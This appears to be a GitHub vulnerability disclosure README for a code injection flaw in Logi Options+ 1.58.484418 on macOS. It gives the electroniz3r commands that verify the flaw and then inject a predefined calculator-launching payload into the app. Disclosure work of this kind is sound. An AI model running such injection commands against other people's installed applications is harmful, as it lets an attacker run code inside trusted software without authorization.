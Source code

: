 # Logi Options+ product 1.58.484418

Logi Options+ product 1.58.484418 for the MacOS operating system allows code injection.

MacOS version used on test: Sonoma beta 14.2.

Command to check:
```
./electroniz3r verify /Applications/logioptionsplus.app
```
![001](https://github.com/andreluna/logi-options-plus-vuln/assets/2491448/f0a95d6a-5713-4d4b-a55e-28058c594e10)

Exploiting application with electroniz3r and payload using **calc**

Command to check:
```
./electroniz3r inject --predefined-script calc /Applications/logioptionsplus.app
```
![002](https://github.com/andreluna/logi-options-plus-vuln/assets/2491448/c7659aa1-5b65-4b47-a862-bc71c33161cc)

Result:

![004](https://github.com/andreluna/logi-options-plus-vuln/assets/2491448/d56eee21-d574-43d4-82a0-9d3e4d6c60c9)

Application version:

![003](https://github.com/andreluna/logi-options-plus-vuln/assets/2491448/0bc20682-dc16-4049-9fc4-54d4a51bdbc5)

The test was done using the tool: 
https://github.com/r3ggi/electroniz3r
